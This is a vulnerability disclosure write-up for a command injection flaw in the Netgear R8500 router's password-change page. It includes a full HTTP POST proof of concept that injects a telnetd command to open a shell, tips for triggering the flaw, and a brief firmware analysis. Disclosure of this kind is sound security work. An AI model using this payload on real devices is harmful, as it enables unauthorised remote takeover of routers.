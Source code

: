 # Netgear R8500  Router Vulnerability

## Basic infomation

* Vendor: Netgear

* Product: R8500

* Firmware version: V1.0.2.158

* Firmware download link: https://www.downloads.netgear.com/files/GDC/R8500/R8500-V1.0.2.158_1.0.105.zip

* Type:Remote Command Execution

* author:donothingme

## Vulnerability description

We found a Command Injection vulnerability in Netgear R8500 router, which allows an authenticated attacker to execute arbitrary OS commands by a crafted request.



In set password page(http://www.routerlogin.net/genie_admin_account.htm), we can set new password. 

The `sysNewPasswd` and `sysConfirmPasswd` fields have a command injection vulnerability. If we set the two fields equal to `%24%28telnetd+-l+%2Fbin%2Fsh+-p+33333+-b+0.0.0.0%29`, we can actually execute command which `$(telnetd -l /bin/sh -p 33333-b 0.0.0.0)`.

![image-20220321151416068](./3.assets/image-20220321151416068.png)



The POC like follows:

```
POST /admin_account.cgi?id=7b1f57fc21e93455c9661ac4b027ee24b675c5cdbe2364d4783154751352f378 HTTP/1.1
Host: 192.168.1.1
Proxy-Connection: keep-alive
Content-Length: 195
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/genie_admin_account.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cookie: XSRF_TOKEN=4125904923

sysNewPasswd=%24%28telnetd+-l+%2Fbin%2Fsh+-p+33333+-b+0.0.0.0%29&sysConfirmPasswd=%24%28telnetd+-l+%2Fbin%2Fsh+-p+33333+-b+0.0.0.0%29&question1=1&answer1=test&question2=1&answer2=test&next=submit
```

And as we can see, after send the craft request, the command is actually executed, and we can get a shell.

![image-20220321143133027](./3.assets/image-20220321143133027.png)



**Some tips to trigger vulnerability:**

* Use IP address(192.168.1.1) instead of url(www.routerlogin.net) to access web page
* Plug in the USB stick to make sure reproduce successfunly

## Firmware analysis

We can locate the vulnerability function by string "admin_account.cgi".

![image-20220321151509958](./3.assets/image-20220321151509958.png)



In function `sub_72934`, the `sysNewPasswd` field is directly saved in nvram config, and this field is directly controlled by attackers.

![image-20220321151641996](./3.assets/image-20220321151641996.png)



The nvram value `htt_passwd` is used in many functions, and some functions use this value to execute function `system()`, so it will cause a command injection vulnerability.

![image-20220321165427267](./3.assets/image-20220321165427267.png)